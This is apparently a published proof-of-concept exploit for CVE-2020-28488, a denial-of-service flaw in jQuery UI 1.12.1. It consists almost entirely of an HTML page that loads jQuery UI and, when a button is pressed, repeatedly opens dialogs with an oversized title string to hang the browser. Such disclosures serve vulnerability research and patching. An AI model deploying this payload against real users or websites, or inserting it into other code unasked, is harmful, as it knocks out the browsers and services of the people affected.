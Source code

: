 EXP
---

    # Exploit Title: jQuery UI 1.12.1 - Denial of Service (DoS)
    # Date: 20 Jan, 2021
    # Exploit Author: Rafael Cintra Lopes
    # Vendor Homepage: https://jqueryui.com/
    # Software Link: https://jqueryui.com/download/
    # Version: <= 1.12.1
    # CVE : CVE-2020-28488

    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>DoS - jQuery UI 1.12.1</title>
    </head>
    <body>
        <h2>DoS - jQuery UI 1.12.1</h2>

        <div>
            <button onclick="exploit()">Exploit</button>
        </div>

        <p>PoC by Rafael Cintra Lopes</p>

        <script src="https://code.jquery.com/jquery-3.5.1.min.js" integrity="sha256-9/aliU8dGd2tb6OSsuzixeV4y/faTqgFtohetphbbj0=" crossorigin="anonymous"></script>
        <script src="https://code.jquery.com/ui/1.12.1/jquery-ui.min.js" integrity="sha256-VazP97ZCwtekAsvgPBSUwPFKdrwD3unUfSGVYrahUqU=" crossorigin="anonymous"></script>

        <script>
            function exploit(){
                for (var i = 0; i < 10; i++) {
                    $("div").dialog({title:'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'});
                }
            }
        </script>
    </body>
    </html>